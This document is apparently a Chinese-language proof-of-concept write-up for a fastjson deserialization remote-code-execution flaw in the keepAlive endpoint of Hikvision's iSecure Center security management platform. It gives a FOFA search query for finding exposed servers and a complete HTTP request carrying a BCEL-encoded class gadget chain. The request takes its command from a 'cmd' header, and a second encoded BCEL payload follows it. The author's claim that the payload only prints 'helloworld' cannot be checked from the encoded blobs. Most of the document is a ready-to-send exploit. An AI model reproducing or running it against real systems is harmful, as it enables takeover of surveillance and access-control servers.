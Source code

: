 **fofa**

```
app="HIKVISION-iSecure-Center"
```

**一、漏洞简述**

海康威视综合安防管理平台涵盖了视频监控、报警系统、门禁系统等众多功能，实现了全方位的安防管理。具体功能有： 视频监控管理、实时视频查看、历史录像调取、 远程监控、报警系统、门禁系统。其接口。其接口keepAlive存在fastjson反序列化漏洞，攻击者可通过该漏洞执行系统命令，控制服务器。

**二、漏洞检测poc**

bcel链已替换成输出helloworld，不会注入有害数据，可放心使用。



```yaml
POST /bic/ssoService/v1/keepAlive HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json
cmd: echo helloworld
Content-Length: 3331

{"CTGT":{ "a": {"@type": "java.lang.Class","val": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"},"b": {"@type": "java.lang.Class","val": "com.sun.org.apache.bcel.internal.util.ClassLoader"},"c": {"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource","driverClassLoader": {"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dT$dbV$d3$40$U$dd$Dm$93$86T$a0$5c$b4$w$w$5e$5b$$$ad$f7$L$a0$82$I$5e$u$b0$96e$e9R$9f$d20$z$81$90$e0d$K$7c$80$P$7e$86o$3e$fbR$5d$o$7e$80$3f$e4$9b$cb3MX$b4$W$d72$P3$99$7d$f6$d9sfON$7e$fe$fe$f6$D$c0M$y$hH$e2$bc$81$L$b8$a8$86K$3a$$$h$b8$82$ac$8e$9c$86$R$D$gF5$8c$Z$YG$5eGA$c7U$j$d7t$5cW$81$h$K$bd$a9$f2o$e9$b8$ad$e1$8e$8e$bb$3a$ee$e9$98$d00$a9a$8a$n1$e5x$8e$7c$c0$d0$99$cd$bdd$88$cd$fa$ab$9c$a1$bb$e8x$7c$a9$b6Y$e6b$c5$w$bb$84$e8S$b6$h1S$ri$d9$h$8b$d6V$pDB$MF$c9$af$J$9b$cf$3b$8a$da$hl$J$c7$ab$aeq$d7$f5w$f2$eb$d6$b6e$o$83$93$g$ee$9bx$80$87$s$a61$c30$e5$8bj$3edV$84$b5$c9w$7c$b1$91$df$e1$e5$bc$ed$7b$92$ef$ca$bc$e0$efj$3c$90$f9$X$e1$3c$h$c2O$7dw$95$L$N$8fL$cc$e21C$7f$95$cb$881$p$a5p$ca5$c9$D$3a$80$da$b6$e0Z$5e$b50$ebZA$60b$O$f3$M$3d$87$f0ry$9d$dbR$c3$T$TO$f1$8ca$fa$7f$eb$vq$b1$ed$k$b9iW$a3$96$60$cb$f7$C$b2aH$ed$b5$9b$PB$faa$daA$3cI$ecW$c2$91$5c$98x$8ey$T$L$u$9aX$c4$S$83$a6$ca$90$ae$d7RpI$aa$da$c8$eb$d0X_$b8$ab$M$f1$8a$5b$L$d6h$b6$5d_$89$f6$j$f2$e7vm$be$r$j$9fT$86l$7f$b3P$b1$C$b9$k$f8$5ea$bb$e6$W$9a$af$a8e$97$955$c1$z$SN$d95$n$b8$t$P$d6$fd$d9$5c$f1o$W$5d$fc$A$j$o$ba$99$86$cfE$df$a2$eba$c8$b4$d0$9bB$w$e7$c8$A$Z$e2$d2K$Da$b8$94$z$fe$7d$f2$c96$c5$c9$d0$c4E$$$d7$7c$wq$fa$88$9c$b7m9$cd$w$82W$5c$fa$I$K$a1$C$c9$9d$f8W$8c$g$c5$f1$b6$fd$N$b2$f8$5e$f36$e1W$d4$b2M$E$e5$da$nj$N$w$f71$b7$5dK$f0$d5$D$e1T$c0$e5$8cm$f3$mp$g$9d$W$cb$beQ$9d$a8$xgC3$fa$da$cd$9c$c40NP$5b$ab$a7$DL$f5$X$8d$a7h5D3$a39$3e$f2$F$ec3$bd0$9c$a61$R$82$d0$89$QQY$96$d0$E$a1$fb_$d1QGg$3aVG$3c$9d$e8$dc$87V$87$cehN$d6a$yD$c1$$$K$WG$d3f$U$5e$i$h$89$IK$R$n$a5$b2$8f$85$e1$ee$89X$sFr$3d$99$d8xD$9b$88g$e2u$f4$a6$d31b$bc$eeL$f7$95$88$96$89$d3$wI$ab$7eZ$Z$afB$c6$40$a4$91$89G$a9$R$3e$d8$86$7fBl$e1s$e3$60_$b1$87$e3$e4$84$3a$ea$p$f4$d0$a8$a3$97$fc$Z$82$81$i$ba$e8$_$aa$fe$3d$v$y$e3$YV$d0$8d7$c4$a9$Q$e3$3d$d2$f8$80$3e$7cD$3fi$M$92$ca$A$be$93$d2$ZRH$a2$e3$X$f64$9cU$k$9ek$Y$3d$fc$H$c8$p$c8$M$95$F$A$A"}}}
```

$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$cb$5b$TW$U$ff$5dH27$c3$m$g$40$Z$d1$wX5$a0$q$7d$d8V$81Zi$c4b$F$b4F$a5$f8j$t$c3$85$MLf$e2$cc$E$b1$ef$f7$c3$be$ec$a6$df$d7u$X$ae$ddD$bf$f6$d3$af$eb$$$ba$ea$b6$ab$ae$ba$ea$7fP$7bnf$C$89$d0$afeq$ee$bd$e7$fe$ce$ebw$ce$9d$f0$cb$df$3f$3e$Ap$I$df$aaHbX$c5$IF$a5x$9e$e3$a8$8a$Xp$8ccL$c1$8b$w$U$e4$U$iW1$8e$T$i$_qLp$9c$e4x$99$e3$94$bc$9b$e4$98$e2$98VpZ$o$cep$bc$c2qVE$k$e7Tt$e2$3c$c7$F$b9$cep$bc$ca1$cbqQ$G$bb$c4qY$c1$V$VW$f1$9a$U$af$ab0PP$b1$h$s$c7$9c$5c$85$U$f3$i$L$iE$F$96$82E$86$c4$a8$e5X$c1Q$86$d6$f4$c0$F$86X$ce$9d$T$M$j$93$96$p$a6$x$a5$82$f0$ce$Z$F$9b4$7c$d4$b4$pd$7b$3e0$cc$a5$v$a3$5c$bb$a2j$U$yQ$z$94$ac$C$9b$fc2$a8y$b7$e2$99$e2$84$r$z$3b$f2e$cfr$W$c6$cd$a2$9bY4$96$N$N$H1$a4$a0$a4$c1$81$ab$a1$8ck$M$a3$ae$b7$90$f1k$b8y$cf$u$89$eb$ae$b7$94$b9$$$K$Z$d3u$C$b1$Sd$3cq$ad$o$fc$ms6$5cs$a1z$c2$b5$e7$84$a7$c0$d3$e0$p$60$e8Z$QA$84$Y$L$C$cf$wT$C$e1S$G2l$d66$9c$85l$ce6$7c_C$F$cb$M$9b$d7$d4$a7$L$8b$c2$M$a8$O$N$d7$b1$c2p$ec$ff$e6$93$X$de$b2$bda$d0$b6Z$$$7e$d9u$7c$oA$5d$cb$8ca$a7$M$bc$92$f1C$db5$lup$92$c03$9e$V$I$aa$eb$86$ccto$b3A1$I$ca$99$J$S$cd$d1C$c3$Ja$Q$tM$d5$e5$DY$88$867$f0$s$f5$d9$y$cd1$u$ae$9fq$a80$Foix$h$efhx$X$ef$d1$e5$cc$c9i$N$ef$e3$D$86$96$acI$b0l$c1r$b2$7e$91$8eC$a6$86$P$f1$R$e9$q$z$81$ed0l$a9$85$a8$E$96$9d$cd$9b$86$e3$c8V$7c$ac$e1$T$7c$aa$e13$7c$ae$e0$a6$86$_$f0$a5l$f8W$e4$e1$f2$98$86$af$f1$8d$86$5b2T$7c$de$aeH$c7q$d3ve$d1$9dk$f9$8e$af$98$a2$iX$$$85$e85$ddRv$de$f0$83E$dfu$b2$cb$V$8a$b4$3aM$M$3dk6$9e$98$b7$a9$85$d9$v$R$U$5d$w$b0$f3$d2$e4$a3$E$8c4$91r$ae$e8$RS4$cdf$c5$f3$84$T$d4$cf$5d$e9$81$c9GQd$d9M$d4FSW$9b$a1I7$a4Yo$827$5cI$9b$N$_$a8M6mj$gjmz$7d$9e$eb$3c$8e$84$ad$ad$d7vl$D$9bK$ebl$g$bd4$b3C$ee$S$96$b3$ec$$$R$edG$g$7d$85$cf$a0$c9W$a4$gX$af$a2$feSN$c7$85i$h$9e$98$ab$e7$d6$ee$8b$60$cc4$85$ef$5b$b5$efF$y$7dQ$7eW$g$a7$f1$86$l$88R$f8$40$cexnYx$c1$N$86$7d$ff$c1$c3j$L$db$C$f7$7c$99$8cr$86$9c$9a$e6n$ad$82$b8$7c$a7$86$e5$Q$c1$bd$8d$8esE$c3$cb$cb$d7$e2$98bd$e0$o$Be$5b$c3Nt$ae$ef$e4H$7d$c6k$aa$b3$V$t$b0J$f5$c7$5c$3ft7$99Ej2$8c$89$VA$_$u$9d$de$60$Q$h$z$88$C$c9Vs$a8H$c9$b0$89B$9dt$ca$95$80$y$85A$acm$ab$87$b3$dcl$c3$F$99$f7$a47$bc$90$eck$V_$i$X$b6U$92$df$U$86$fd$ff$ceu$e3c$96E84$ef$e8$c3$B$fa$7d$91$7f$z$60$f2$ebM2C$a7$9d$b42Z$e3$83w$c1$ee$d0$86$nK2QS$s$c0$f1D$j$da$d2O$O$da$Ip$f5$kZ$aahM$c5$aa$88$9f$gL$rZ$efC$a9$82O$k$60$b4KV$a1NE$80$b6$Q$a0$d5$B$83$a9$f6h$3b$7d$e0$60$84$j$8e$N$adn$e3$91$dd$s$b2Ku$84$d0$cd$c3$89H$bbEjS1$d2$ce$b6$a6$3a$f3$f2J$d1$VJ$a2KO$84R$8f$d5$3dq$5d$d1$e3$EM$S$b4$9b$a0$ea$cf$e8$iN$s$ee$93TS$5b$efa$5b$V$3d$v$bd$8a$ed$df$p$a5$ab$S$a3$ab$b1To$fe6$3a$e4qG$ed$b8$93d$5cO$e6u$5e$c5c$a9$5d$8d$91u$k$3a$ff$J$bbg$ef$a1OW$ab$e8$afb$cf$5d$3c$9e$da$5b$c5$be$w$f6$cb$a03$a1e$3a$aaD$e7Qz$91$7e$60$9d$fe6b$a7$eeH$e6$d9$y$bb$8cAj$95$ec$85$83$5e$92IhP$b1$8d$3a$d0G$bb$n$b4$e306$n$87$OLc3f$b1$F$$R$b8I$ffR$dcB$X$beC7$7e$c0VP$a9x$80$k$fc$K$j$bfa$3b$7e$c7$O$fcAM$ff$T$bb$f0$Xv$b3$B$f4$b11$f4$b3Y$ec$a5$88$7b$d8$V$ec$c7$93$U$edY$c4$k$S$b8M$c1S$K$9eVp$a8$$$c3M$b8$7fF$n$i$da$k$c2$93s$a3$e099$3d$87k$pv$e4$l$3eQL$40E$J$A$A